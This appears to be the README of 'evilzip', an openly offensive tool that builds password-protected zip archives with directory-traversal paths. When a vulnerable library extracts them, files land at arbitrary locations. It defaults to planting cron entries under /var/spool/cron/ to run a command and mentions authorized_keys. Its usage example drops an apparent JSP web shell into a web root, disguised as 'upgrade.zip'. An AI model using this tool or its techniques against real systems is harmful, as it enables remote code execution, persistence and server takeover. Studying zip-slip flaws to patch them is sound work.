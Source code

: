 # evilzip

## logs

* 20210723 去除可执行权限(crontab和authorized_keys均仅需可读可写即可 无需执行权限)。

* 20210701 修改权限问题,让解压后的文件默认就有读写执行的权限。

## About
evilzip lets you create a zip file(with password) that contains files with directory traversal characters in their embedded path.  Most commercial zip program (winzip, etc) will prevent extraction of zip files whose embedded files contain paths with directory traversal characters.  However, many software development libraries do not include these same protection mechanisms (ex. Java, PHP, etc).  If a program and/or library does not prevent directory traversal characters then evilzip can be used to generate zip files that, once extracted, will place a file at an arbitrary location on the target system.

## 关于项目

原使用的创建恶意压缩包的工具[evilarc](https://github.com/ptoomey3/evilarc)不支持带密码的压缩包,且没法修改,因为其使用的zipfile模块不支持加密码压缩，所以就有了这个项目。在evilarc的基础上新增了一些自己常用的功能，比如仅需一个参数就生成可以穿越到unix系统计划任务的压缩包。

具体参数如下:

```
╭─ fucker ~/Coding/Java/Intellij/evilzip/
╰─ java -jar evilzip.jar -h
Usage: java -jar EvilZip.jar [options]
  Options:
    -f, --file
      File to input archive.
      Default: root
    -p, --path
      Path to include in filename after traversal
      Default: var/spool/cron/
    -pwd, --password
      ZIP file encrypt password.
    -o, --output
      File to output archive.
      Default: evil.zip
    -d, --depth
      Number directories to traverse.
      Default: 8
    -t, --type
      OS platform for archive (win|unix).
      Default: unix
    -c, --cmd
      Command to execute.
    -h, --help
      Show this message
```

## 一些tips


读取本地的gaga.jsp 让其穿越10层目录最终解压到/wwwroot/xxxx/gaga.jsp 解压密码为update-password 输出的压缩包名为upgrade.zip

```
java -jar evilzip.jar -f gaga.jsp -d 10 -p wwwroot/xxxx/ -o upgrade.zip -t unix -pwd "update-password"
```

大部分参数均带有默认值，不用指定也行。
